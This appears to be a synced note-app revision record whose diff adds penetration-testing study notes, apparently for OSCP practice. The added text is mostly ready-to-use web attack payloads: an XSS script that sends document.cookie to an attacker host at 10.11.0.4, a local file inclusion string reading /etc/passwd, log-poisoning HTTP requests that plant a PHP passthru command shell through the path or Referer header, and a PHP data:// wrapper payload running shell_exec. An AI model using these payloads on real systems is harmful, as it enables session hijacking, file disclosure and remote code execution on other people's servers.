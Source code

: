 id: 2c2eb3d719554184b77aaebaf67ab8e0
parent_id: 25a155d6e25643a8b38321f077231846
item_type: 1
item_id: 1094d9f035074e3a8ef344a61a88cf5e
item_updated_time: 1643130371759
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\" Shell\\\n\\\n\"],[1,\"> &lt;script&gt;new Image().src=’[http://10.11.0.4/hijacker.php](http://10.11.0.4/hijacker.php?cookie=%E2%80%99+document.cookie;)&lt;/script&gt; # Where hijacker.php is the webshell reverse shell\\\n\\\n\"],[0,\"## Using\"]],\"start1\":17,\"start2\":17,\"length1\":16,\"length2\":213},{\"diffs\":[[0,\" page.\\\n\\\n\"],[1,\"Another way to deal with this problem is to add a question mark to your attack-string:\\\n\\\n> http://example.com/page=../../../../../../etc/passwd?\\\n\\\nFor more information: [https://sushant747.gitbooks.io/total-oscp-guide/content/local\\\\_file\\\\_inclusion.html](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html)\\\n\\\n\"],[0,\"# Log Fi\"]],\"start1\":2913,\"start2\":2913,\"length1\":16,\"length2\":353},{\"diffs\":[[0,\"2 80\\\n> \\\n\"],[1,\"> \\\\# 1st way To access log\\\n> \\\n\"],[0,\"> &lt;?p\"]],\"start1\":3556,\"start2\":3556,\"length1\":16,\"length2\":46},{\"diffs\":[[0,\"['cmd'\\\\]\"],[1,\") . '&lt;/pre&gt;';?>\"],[0,\"\\\n> \\\n> \\\\#\"],[1,\" 2nd way\"],[0,\" To acce\"]],\"start1\":3641,\"start2\":3641,\"length1\":24,\"length2\":53},{\"diffs\":[[0,\"cess log\"],[1,\"\\\n> \\\n> GET /&lt;?php passthru($_GET\\\\['cmd'\\\\]); ?&gt; HTTP/1.1\\\n> Host: 192.168.1.102\\\n> Connection: close\\\n> \\\n> \\\\# To error log\\\n> \\\n> ```\\\n> GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1\\\n> Host: 192.168.1.102\\\n> Connection: close \\\n> ```\\\n> \\\n> \\\\# Or you can use the Referer Parameter\\\n> \\\n> ```\\\n> GET / HTTP/1.1\\\n> Referer: <? passthru($_GET[cmd]) ?>\\\n> Host: 192.168.1.159\\\n> Connection: close\\\n> ```\"],[0,\"\\\n\\\nAfter \"]],\"start1\":3692,\"start2\":3692,\"length1\":16,\"length2\":409},{\"diffs\":[[0,\"ce=index\"],[-1,\" \"],[0,\"\\\n\\\nHere y\"]],\"start1\":4567,\"start2\":4567,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"savefile.php\"],[1,\"\\\n\\\n# PHP Wrappers\\\n\\\nCan be used to exploit Directory Traversal and Local File Inclusion Vulns\\\n\\\nOnce tested to be able to use PHP Wrappers, we can replace the text with some PHP code\\\n\\\n> http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec(\\\"dir\\\") ?>\\\n\\\nDepending if Windows or Linux, use the appropriate commands to get the output desired\"]],\"start1\":4778,\"start2\":4778,\"length1\":12,\"length2\":361}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-25T17:06:23.914Z
created_time: 2022-01-25T17:06:23.914Z
type_: 13